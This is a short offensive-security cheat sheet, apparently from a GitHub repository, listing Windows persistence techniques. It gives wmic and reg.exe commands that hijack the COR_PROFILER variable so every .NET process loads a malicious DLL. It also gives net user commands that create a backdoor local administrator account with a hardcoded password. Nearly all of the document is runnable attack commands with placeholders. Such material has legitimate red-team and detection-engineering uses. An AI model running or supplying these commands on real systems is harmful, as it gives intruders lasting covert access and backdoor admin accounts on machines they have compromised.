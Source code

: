 # Persistence
### COR Profiler Variable Hijack
Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)
```powershell
# deleting existing COR_PROFILER variable
wmic ENVIRONMENT where "name='COR_PROFILER'" delete

# creating COR_ENABLE_PROFILING variable and setting it to 1
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="<system>",VariableValue="1"

# creating a new COR_PROFILER variable
wmic ENVIRONMENT create name="COR_PROFILER",username="<system>",VariableValue="<arbitrary CLSID>"

# adding registry keys for malicious DLL
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /V ThreadingModel /T REG_SZ /D Apartment /F
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /VE /T REG_SZ /D "<malicious_DLL>" /F
```
### Local Administrator Account Creation
```powershell
net user burmat BURMAT123123123 /add
net localgroup administrators burmat /add 
net localgroup administrators
```